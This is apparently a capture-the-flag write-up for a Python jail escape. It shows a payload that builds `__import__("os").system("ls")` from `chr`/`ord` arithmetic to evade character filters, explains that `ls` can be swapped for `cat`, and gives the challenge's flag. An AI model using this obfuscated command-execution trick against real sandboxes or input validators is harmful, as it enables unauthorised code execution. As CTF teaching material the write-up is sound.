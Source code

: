 There are a few solutions, but the key to note here is that you are given `chr`, `ord`, and `join` for free, which along with `+1` (and `<<` for brevity) allows you to construct any arbitrary string. Attached below is the `ls` payload, just change it to `cat` once you know the file name.

```bash
>>> ''.join(['__impo', ('r' + chr(ord('r') + 1 +1)), '__(', chr(((1 << 1 << 1 << 1 << 1) + 1) << 1), 'o', chr(ord('r')+1), chr(((1 << 1 << 1 << 1 << 1) + 1) << 1),').', chr(ord('r') + 1), 'y', chr(ord('r') + 1), chr(ord('r') + 1 + 1), 'em(', chr(((1 << 1 << 1 << 1 << 1) + 1) << 1), 'ls', chr(((1 << 1 << 1 << 1 << 1) + 1) << 1), ')' ] )
```

Flag is `wctf{th3_gr34t_esc4p3_&&}`